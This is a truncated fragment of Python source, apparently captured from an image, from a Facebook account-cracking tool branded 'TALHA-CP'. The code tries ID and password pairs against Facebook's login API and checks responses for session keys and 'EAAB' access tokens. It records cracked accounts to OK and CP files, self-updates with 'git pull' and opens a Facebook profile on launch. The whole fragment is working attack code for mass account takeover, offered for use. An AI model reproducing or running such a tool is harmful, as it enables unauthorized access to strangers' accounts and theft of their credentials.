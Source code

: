 			if "www.facebook.com" in resp.json()["error_msg"]:

				if 'ya' in oprek:

					akun.append(idf+'|'+pw)

					ceker(idf,pw)

				else:

					print('\r%s [TALHA-CP] %s|%s        '%(b,idf,pw))

					open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')

					akun.append(idf+'|'+pw)

					cp+=1

				break

			elif "session_key" in resp.text and "EAAB" in resp.text:

				print('\r%s [ok] %s|%s        '%(h,idf,pw))

				open('OK/'+okc,'a').write(idf+'|'+pw+'\n')

				ok+=1

				break

			else:

				continue

		except requests.exceptions.ConnectionError:

			time.sleep(31)

	loop+=1

def jalan(z):

    for e in z + "\n":

        sys.stdout.write(e)

        sys.stdout.flush()

        time.sleep(0.04)

def mlaku(z):

    for e in z + "\n":

        sys.stdout.write(e)

        sys.stdout.flush()

        time.sleep(0.03)

if __name__=='__main__':

	os.system('git pull')

	try:os.mkdir('CP')

	except:pass

	try:os.mkdir('OK')

	except:pass

	os.system("xdg-open https://www.facebook.com/sardar.mahather")

	menu()

	

